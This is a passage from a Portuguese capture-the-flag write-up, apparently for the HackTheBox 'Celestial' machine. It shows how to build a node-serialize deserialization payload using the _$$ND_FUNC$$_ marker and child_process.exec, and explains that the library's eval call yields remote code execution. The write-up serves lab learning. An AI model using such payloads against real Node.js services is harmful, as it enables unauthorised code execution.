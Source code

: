 Então, mãos à obra!

# Exploração

Iremos realizar de dois modos essa exploração, sempre procurando ser o mais explicativo possível. A primeira maneira será totalmente manual, instalando o node-js na máquina, criando o payload na unha. A segunda iremos utilizar um GitHub que contém um script que automatiza.

## Criando payload na mão

Vou reproduzir o que está descrito nos blogs linkados acima!

Bom, a primeira coisa a se fazer para explorar essa falha não mão á a instalação do `node-serealize`

> npm install node-serealize

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_instala.png)

Bom, o payload a ser criado eu copiei do blog

```
var y = {
    ​rce : function(){​require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });​
    },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_log.png)

Executamos o `node` nele, para realizar a serealização

> {"rce":"_$$ND_FUNC$$_function(){\n \trequire('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });\n\t}"}

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_node_log.png)

O que vamos fazer agora é ir dentro dos módulos do node é procurar por pelo q essa função faz (ND_FUNC)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C-grep.png)

Encontramos esse módulo, verificamos dentro dessa função oq FUNCFLAG faz ele passa para a função `eval(x)`, é assim que ele faz o Remote Code Execution

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_grep.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_grep1.png)

Alteramos o payload, com o intuito de ficar com os mesmos dados que a máquina pede
